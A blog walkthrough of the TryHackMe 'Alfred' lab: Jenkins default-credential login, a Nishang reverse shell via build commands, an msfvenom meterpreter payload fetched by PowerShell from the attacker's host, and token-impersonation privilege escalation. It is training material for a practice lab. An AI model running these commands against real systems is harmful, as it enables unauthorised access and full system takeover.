 ```yaml
---
title: "TryHackMe - Alfred - Walkthrough"
date: 2020-11-27T06:34:30-04:00
categories:
  - blog
tags:
  - learning
  - alfred
  - tryhackme
  - walkthrough
---
```


This is a walkthrough for the room: [Alfred][alfred] on [TryHackMe][thm]. Let’s get started!

# Initial Access
First question is asking about how many TCP ports are open, however it does note that the server will not respond to ping, so we need to run the `-Pn` option for our `nmap` scan.

![a1](/assets/images/thm/steelmountain/a1.png)

We see that this is clearly a Microsoft server, and there is a website on port 80 and 8080. Let’s take a look!

![a2](/assets/images/thm/steelmountain/a2.png)

Wow, poor Batman! We know we are looking for login information since the next question asks for it. So there has to be some sort of login page. Let’s try checking 8080.

![a3](/assets/images/thm/steelmountain/a3.webp)

Bingo! Now we still need a login. Let’s try some default credentials. After looking up Jenkins default credentials: `admin:password` trying that doesn’t work. Let’s try `admin:admin`. That works!

**NOTE:** I got lucky here by guessing default creds, but you could brute force this with hydra if it was more difficult.

Next, the room tells us to find a feature of the system that allows us to run commands. From there we can get a reverse shell on our machine using the command they give us.

If we navigate into the already created project, we can explore some more. Eventually, we get to **Configure**. In here under **Build**, we can run commands on the local system.

Before we do this, we need to download the script the room gives us ([here][nishang]) to our local machine. And then setup our python server:

`python3 -m http.server 80`

Then open a new terminal tab and start a netcat listener:

`nc -nvlp 1234`

Now, let’s enter our commands we want the server to execute. (These are given to us)

![a4](/assets/images/thm/steelmountain/a4.png)

Click **Apply**, **Save** then select **Build Now**. If you go to your netcat listener terminal, you should now have a shell!

![a5](/assets/images/thm/steelmountain/a5.png)

Now that we are in, we can look for the user flag!

![a6](/assets/images/thm/steelmountain/a6.png)

Alright! Next section.

# Switching Shells
First step is to create our payload. Let’s open a new terminal and put in the commands given:

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<thm_vpn_ip> LPORT=1235 -f exe -o win_shell.exe
```
With the output, we get our next answer:

![a7](/assets/images/thm/steelmountain/a7-1.webp)

Now we need to download the payload to the machine. Utilize the command given and run it in our shell on the victim machine.

`powershell "(New-Object System.Net.WebClient).Downloadfile('http://<thm_vpn_ip>:80/shell-name.exe','shell-name.exe')"`
**NOTE:** If you stopped your Python webserver earlier, you will need to start that again under the folder where you save the payload: python3 -m http.server 80

Now, once again we need to start a listener, but since this is a `meterpreter` shell, we will need to use metasploit. Open a new terminal:

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost tun0
set lport 1235
run
```

Now that our listener is running, let’s start the payload by entering `Start-Process "shell-name.exe"` in the current shell on the victim machine.

You should now have a shell in metasploit!

# Privilege Escalation
Let’s follow along with the instructions. Type `shell` and then `whoami /priv`

Exit the local shell: `exit`, and run the following:

```bash
load incognito
list_tokens -g
impersonate_token "BUILTIN\Administrators"
getuid
```
Just like the room says, we need to migrate to a process that is running as `NT AUTHORITY\SYSTEM`. Lets run `ps` and look for the `services.exe` process.

![a8](/assets/images/thm/steelmountain/a8.png)

From here we can run the following command: `migrate 668`

There let’s get the root flag!

![a9](/assets/images/thm/steelmountain/a9.png)

# Review
This was a good in-between room. It was sort of a walkthrough but also didn’t give you all the information similar to a CTF. It was an easy room, but I definitely enjoyed it! See ya next time!

# References
[Alfred][alfred] | [TryHackMe][thm] | [Nishang][nishang]

[alfred]: https://tryhackme.com/why-subscribe?roomCode=alfred
[thm]: https://tryhackme.com
[nishang]: https://github.com/samratashok/nishang